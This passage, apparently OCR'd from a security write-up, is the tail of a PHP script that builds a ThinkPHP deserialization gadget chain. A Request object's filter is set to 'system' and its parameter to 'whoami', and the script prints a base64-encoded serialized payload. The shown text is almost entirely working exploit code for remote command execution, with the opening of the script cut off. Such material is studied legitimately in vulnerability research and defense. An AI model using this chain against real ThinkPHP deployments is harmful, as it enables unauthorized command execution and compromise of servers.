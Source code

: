 ```php
			$this->append["key"] = ["xxx"];
		}
	}

	class Request{
		protected $hook = [];
		protected $config = [];
		protected $param = [];
		protected $filter;
		public function __construct(){
			$this->hook["visible"] = [$this,"isAjax"];
			$this->config["var_ajax"] = "";
			$this->param = ["whoami"];
			$this->filter = "system";
		}
	}
}

namespace think\model{
	class Pivot extends \think\Model{
	}
}

namespace{
	echo  base64_encode(serialize(new \think\process\pipes\Windows()));
}
?>
```


![arYuPP.png](https://s1.ax1x.com/2020/08/05/arYuPP.png)
